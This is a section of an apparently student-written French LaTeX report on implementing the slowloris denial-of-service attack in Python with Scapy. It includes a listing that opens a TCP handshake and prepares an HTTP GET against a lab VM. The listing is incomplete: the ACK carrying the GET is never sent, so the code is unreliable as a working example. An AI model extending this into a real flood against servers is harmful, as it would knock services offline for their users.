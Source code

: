 \documentclass{article}
\begin{document}
\section{Implémentation en Python}
Le travail d'implémentation a commencé en déterminant les aspects principaux requises. Fonctionnellement, nous avions
besoin d'un petit programme capable d’envoyer requêtes HTTP.Comme nous disons la section d'avant,
l'attaque \textit{slowloris} est fonctionnellement très élégant; en exploitant le mécanisme des GET
requests du protocole HTTP plusieurs fois, on occupe tous les \textit{threads} disponibles au serveur.
Alors, comme le but de notre état de l'art, on a fixé l'objectif d’implémenter un programme capable d'envoyer
GET requests à un serveur web HTTP.Cette fonctionnalité pourra après être déléguée à une fonction en python,
que l'on appellera lors de l'attaque dans une structure de contrôle plus intelligente.
Le but est d'utiliser les méthodes de Scapy, ce qui nous donnera la capacité de contrôler d'une façon plus granulaire
l'envoie des paquets. Le code source est travaillé et managé à travers de
git et le repositoire est disponible publiquement sur Github (documenté en anglais) sur le lien \href{https://github.com/AlessandroMontaldo/slowLorisAttack}{https://github.com/AlessandroMontaldo/slowLorisAttack}

\begin{lstlisting}
#!/usr/bin/env python
# Imports
from scapy.all import *
from scapy.all import http

# This handles HTTP responses from the server
def handle(pkt):
    if pkt.haslayer(http.HTTPRequest):
        print(pkt)
    
# Make a TCP SYN
#ip_address="35.204.58.85"    # Alessandro's server
ip_address="192.168.33.10"    # Matheus' VM (see Vagrantfile)
server_port=80                # http port
ip = IP(dst=ip_address)       # IP Packet 

# HTTP GET Request
get = "GET / HTTP/1.1\r\nHost: " + ip_address + "\r\n\r\n"
port = RandNum(1024,6500)

# The TCP 3-way handshake rules must be followed. As such, we begin by sending a
# TCP packet with the S (or SYN) flag set. The sequence number is irrelevant, as all
# future TCP packets will contain sequence numbers which are increments of the number
# given
SYN = ip/TCP(sport=port, dport=server_port, flags="S", seq=42) 

# Send SYN and wait for SYNACK as response
print(SYN.summary())
SYNACK = sr1(SYN)

# Send ACK and finally HTTP GET, sniff for the result
ACK=ip/TCP(sport=SYNACK.dport, dport=server_port, flags="A", seq=SYNACK.ack, ack=(SYNACK.seq+1))/get
sniff(filter="tcp and port 80", store=False, prn=handle)
\end{lstlisting}
\end{document}
